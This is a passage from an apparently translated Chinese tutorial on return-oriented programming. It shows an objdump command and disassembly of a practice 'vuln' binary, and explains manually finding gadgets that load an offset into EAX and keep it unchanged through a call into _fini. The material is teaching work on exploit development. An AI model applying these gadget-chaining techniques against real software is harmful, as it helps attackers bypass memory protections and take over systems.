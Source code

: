 

在似乎没有找到其他方法的时候(至少当我开始学习ROP的时候), [Reno](http://v0ids3curity.blogspot.in/) 教我利用人工ROP gadget搜索来达成目的。多谢！ 继续阅读下去吧！

## 0X08 ROP gadget人工搜索

既然ROP gadget工具无法找到’pop eax’ret’ gadget, 我们就试试人工搜索方法来看看是否有任何有趣的gadgets能帮助我们将偏移差拷贝到EAX寄存器中。  

使用下面命令反汇编’vuln’二进制文件  

`$objdump -d vuln > out`  
-Gadget 4: 将偏移差（0xfffff530)加载到EAX寄存器。反汇编中可以看到，一条mov指令可以将栈中的内容拷贝到EAX中。  

``` 
80485b3: mov 0x34(%esp),%eax
80485b7: mov %eax,0x4(%esp)
80485bb: call *-0xe0(%ebx,%esi,4)
80485c2: add $0x1,%esi
80485c5: cmp %edi,%esi
80485c7: jne 80485a8 <__libc_csu_init+0x38>
80485c9: add $0x1c,%esp
80485cc: pop %ebx
80485cd: pop %esi
80485ce: pop %edi
80485cf: pop %ebp
80485d0: ret
```
但看起来’ret’(0x80485d0)离这条指令(0x80485b3)很远。因此这里主要的挑战就是在执行’ret’之前，EAX的内容没有被修改。  

未被修改的EAX: 我们来看看如何做到在执行’ret’之前，EAX不被修改。这里有条call指令(0x80485bb)，所以找出一种方法加载EBX与ESI以便让call指令调用一个不修改EAX的函数。  

```
0804861c <_fini>:
804861c: push %ebx
804861d: sub $0x8,%esp
8048620: call 8048625 <_fini+0x9>
8048625: pop %ebx
8048626: add $0x19cf,%ebx
804862c: call 8048450 <__do_global_dtors_aux>
8048631: add $0x8,%esp
8048634: pop %ebx
8048635: ret
08048450 <__do_global_dtors_aux>:
8048450: push %ebp
8048451: mov %esp,%ebp
8048453: push %ebx
8048454: sub $0x4,%esp
8048457: cmpb $0x0,0x804a028
804845e: jne 804849f <__do_global_dtors_aux+0x4f>
...
804849f: add $0x4,%esp
80484a2: pop %ebx
80484a3: pop %ebp
80484a4: ret
```
_fini调用了_do_global_dtors_aux, 这里当我们将内存区域0x804a028设置为0x1时，EAX不会被修改。  
